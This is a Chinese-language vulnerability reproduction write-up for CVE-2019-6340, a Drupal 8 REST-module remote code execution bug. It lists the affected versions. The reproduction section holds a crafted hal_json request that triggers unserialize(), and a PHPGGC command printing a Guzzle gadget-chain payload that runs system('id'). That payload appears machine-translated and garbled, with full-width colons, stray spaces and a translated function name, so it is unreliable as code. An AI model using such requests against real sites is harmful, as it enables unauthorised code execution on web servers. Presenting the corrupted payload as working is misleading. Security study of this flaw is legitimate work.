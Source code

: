 （CVE-2019-6340）Drupal 远程代码执行漏洞
========================================

一、漏洞简介
------------

Drupal Core存在一个远程代码执行漏洞。此次，它的目标是Drupal
8的REST模块，默认情况下，该模块是禁用了，但是该模块在大多数情况下会被用户使用。\*\*该漏洞本质上是由于用户使用Drupal
Core RESTful Web Services
(rest)时，某些字段类型无法正确清理非格式源中的数据。在某些情况下，这可能导致任意PHP代码执行。\*\*此外，我们发现针对该漏洞提出的即时补救措施是不完整的，这可能会导致一种错误的安全感。**用户可能会根据官方的说明禁用掉RESTful
Web Services
中的POST/PATCH方法，但是事实上GET方法也能在无任何权限的情况下执行远程代码，所以用户必须执行Drupal的最新的安全更新或者禁用RESTful
Web Services服务，否则网站依旧处于风险当中。**

二、漏洞影响
------------

Drupal 8.6.x \< 8.6.10

Drupal 8.5.x \< 8.5.11

三、复现过程
------------

> 触发`unserialize()`

    GET /drupal-8.6.9/node/1?_format=hal_json HTTP/1.1
    Host: 192.168.1.25
    Content-Type: application/hal+json
    Content-Length: 642

    {
      "link": [
        {
          "value": "link",
          "options": "<SERIALIZED_CONTENT>"
        }
      ],
      "_links": {
        "type": {
          "href": "http://192.168.1.25/drupal-8.6.9/rest/type/shortcut/default"
        }
      }
    }

> 由于Drupal
> 8使用[Guzzle](http://docs.guzzlephp.org/en/stable/)，我们可以使用PHPGGC生成有效负载：

    $ ./phpggc guzzle / rce1系统ID --json
     “ O：24：\” GuzzleHttp \\ Psr7 \\ FnStream \“：2：{s：33：\” \ u0000GuzzleHttp \\ Psr7 \\ FnStream \ u0000methods \“ ; a：1：{s：5：\“ close \”; a：2：{i：0; O：23：\“ GuzzleHttp \\ HandlerStack \”：3：{s：32：\“ \ u0000GuzzleHttp \ \ HandlerStack \ u0000handler \“; s：2：\” id \“; s：30：\” \ u0000GuzzleHttp \\ HandlerStack \ u0000stack \“; a：1：{i：0; a：1：{i：0 ; s：6：\“ system \”;}} s：31：\“ \ u0000GuzzleHttp \\ HandlerStack \ u0000cached \”; b：0;} i：1; s：7：\“ resolve \”;}} s：9：\“ _ fn_close \”; a：2：{i：0; r：4; i：1; s：7：\“ resolve \”;}}“
